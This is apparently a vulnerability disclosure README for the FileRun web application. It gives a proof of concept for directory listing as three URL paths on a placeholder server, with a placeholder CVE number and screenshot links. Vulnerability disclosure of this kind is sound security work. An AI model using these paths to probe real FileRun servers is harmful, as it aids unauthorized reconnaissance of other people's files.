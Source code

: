 # FileRun Vulnerabilities and Exploits
[FileRun](https://filerun.com) application has many vulnerabilities.

## CVE-2019-XXXX
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-XXXX


### PoC #1 - Directory Listing
```
http://[server]/filerun/images/extjs/
http://[server]/filerun/css/ext-ux/
http://[server]/filerun/customizables/plugins/audio_player/
```
![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-1.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-2.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-3.png)
